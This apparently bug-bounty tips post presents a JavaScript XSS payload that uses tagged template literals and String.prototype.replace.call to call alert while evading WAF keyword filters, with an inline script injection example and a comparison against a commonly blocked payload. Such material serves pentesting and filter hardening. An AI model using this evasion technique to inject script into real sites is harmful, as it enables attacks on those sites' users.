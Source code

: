# 🚨 Advanced XSS WAF Bypass in JavaScript Context

**👨‍💻 Discovered by:** [@thelilnix](https://twitter.com/thelilnix)

A clever JavaScript-based XSS payload designed to **bypass WAF filters** that look for standard `alert()` patterns, `<script>` tags, or suspicious keywords.

---

## 💣 Payload
```js
''.replace.call`1${/.../}${alert}`
```
🧠 How It Works
- `Template Literals ( )`: Used to dynamically inject code, which often avoids pattern-based filters.

- `.replace.call` Method Hijacking: This tricks the JS engine to evaluate code via tagged template literals.

- `${/.../}`: Can be any regex or dummy code; included to further obfuscate the logic.

- `${alert}`: Dynamically references the global alert function in modern browsers without needing ().

🧪 Practical Example
Inject into any inline JavaScript context where code execution is allowed:

```
<script>
  let x = ''.replace.call`1${/.*/}${alert}`
</script>
```
✅ Result: Executes alert(1) without using alert(1) directly.

🔍 Why This Bypass Works

🔒 Commonly Blocked by WAFs:
```
<script>alert(1)</script>
```
😈 Rarely Blocked (This Payload):
```
''.replace.call`1${/.*/}${alert}`
```
🔐 Security Impact

**This bypass:**

- Avoids keyword-based detection (e.g., alert(, onerror=, <script>)
- Exploits parsing quirks and JavaScript expression evaluation
- Is valuable in bug bounty, pentesting, and CSP/DOM bypass scenarios

**🔥 Test this in controlled environments like:**

- XSS Hunter
- JSFiddle with CSP disabled
- Burp Collaborator

**📢 Stay Updated**
For more WAF bypasses, real-world CVEs, and bug bounty payloads:
👉 - [@cybersecplayground](https://t.me/cybersecplayground)

➕ (Payload added to [xss Payload list](https://github.com/cybersecplayground/bugbounty-Tips-and-Tricks/blob/main/Payloads/XSS_Payload.txt))

🏷 Tags

#XSS #BugBounty #WAFBypass #JavaScript #Cybersecurity #thelilnix #Infosec #Payloads #WebSecurity #CybersecPlayground
